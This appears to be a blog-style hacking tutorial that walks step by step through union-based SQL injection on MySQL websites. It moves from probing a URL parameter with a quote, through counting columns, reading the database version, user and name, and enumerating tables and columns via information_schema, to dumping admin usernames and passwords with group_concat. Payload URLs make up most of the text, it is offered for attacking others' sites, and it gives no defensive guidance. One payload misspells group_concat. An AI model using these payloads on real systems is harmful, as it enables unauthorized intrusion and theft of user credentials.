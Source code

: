 <!--
author: zhuoliang
head: http://pingodata.qiniudn.com/jockchou-avatar.jpg
date: 2016-07-29
title: Learn How To Hack Websites With Different Techniques
tags: SQL Injection, Hack
category: Hack
status: publish
-->

## SQL Injection in MySQL Databases ##

SQL Injection attacks are code injections that exploit the database layer of the application. This is most commonly the MySQL database, but there are techniques to carry out this attack in other databases such as Oracle. In this tutorial, i will be showing you the steps to carry out the attack on a MySQL Database.

![SQL Injection](http://i.imgur.com/C8DaFIj.gif)


### 1. Find A Page Vulnerable###

When testing a website for SQL Injection vulnerabilities, you need to find a page that looks like this:

	www.site.com/page=1
	www.site.com/id=5

Basically, the site needs to have an = then a number or a string, but most commonly a number. Once you have found a page like this, we test for vulnerability by simply entering an ' after the number in the URL. For example:

	www.site.com/page=1'

If the database is vulnerable, the page will spit out a MySQL error such as:

	Warning: mysql_num_rows(): supplied argument is not a valid MySQL result 
			 resource in /home/wwwprof/public_html/readnews.php on line 29

If the page loads as normal then the database is not vulnerable, and the website is not vulnerable to SQL Injection.


### 2. Find The Number of Columns  ###

Now we need to find the number of union columns in the database. We do this using the `order by` command. We do this by entering `order by 1--`, `order by 2--` and so on until we receive a page error. For example:

    www.site.com/page=1 order by 1--
	http://www.site.com/page=1 order by 2--
	http://www.site.com/page=1 order by 3--
	http://www.site.com/page=1 order by 4--
	http://www.site.com/page=1 order by 5--

If we receive another MySQL error here, then that means we have 4 columns. If the site errored on `order by 9` then we would have 8 columns. If this does not work, instead of `--` after the number, change it with `/*`, as they are two difference prefixes and if one works the other tends not too. It just depends on the way the database is configured as to which prefix is used.

### 3. Find The Vulnerable Columns ###

We now are going to use the `union` command to find the vulnerable columns. So we enter after the URL, union all select (number of columns)--, for example:

	www.site.com/page=1 union all select 1,2,3,4--

This is what we would enter if we have 4 columns. If you have 7 columns you would put, `union all select 1,2,3,4,5,6,7--`. If this is done successfully the page should show a couple of numbers somewhere on the page. For example, 2 and 3. This means columns 2 and 3 are vulnerable.

### 4. Find The Database Version, Name and User ###

We now need to find the database version, name, and user. We do this by replacing the vulnerable column numbers with the following commands:

	user()
	database()
	version()

Or if these don't work try...

	@@user
	@@version
	@@database

For example the url would look like:

	www.site.com/page=1 union all select 1,user(),version(),4--

The resulting page would then show the database user and then the MySQL version. For example `admin@localhost and MySQL 5.0.83`.

**IMPORTANT:** If the version is 5 and above read on to carry out the attack, if it is 4 and below, you have to brute force or guess the table and column names, programs can be used to do this.

### 5. List All The Table Names ###

In this step, our aim is to list all the table names in the database. To do this we enter the following command after the URL.

	UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

So the url would look like:
	
	www.site.com/page=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables--

Remember the `table_name` goes in the vulnerable column number you found earlier. If this command is entered correctly, the page should show all the tables in the database, so look for tables that may contain useful information such as passwords, so look for admin tables or member or user tables.


### 6. List All The Column Names ###

In this Step we want to list all the column names in the database, to do this we use the following command:

	union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()--

This command makes the page spit out ALL the column names in the database. So again, look for interesting names such as user, email, and password.

### 7. Dump The Data ###

Finally, we need to dump the data, so say we want to get the `username` and `password` fields, from table "admin" we would use the following command:

	union all select 1,2,group_concat(username,0x3a,password),4 from admin--

So the URL would look like this:

	www.site.com/page=1 union all select 1,2,group_conca(username,0x3a,password),4 from admin--

Here the `concat` command matches up the username with the password so you don't have to guess, if this command is successful then you should be presented with a page full of usernames and passwords from the website
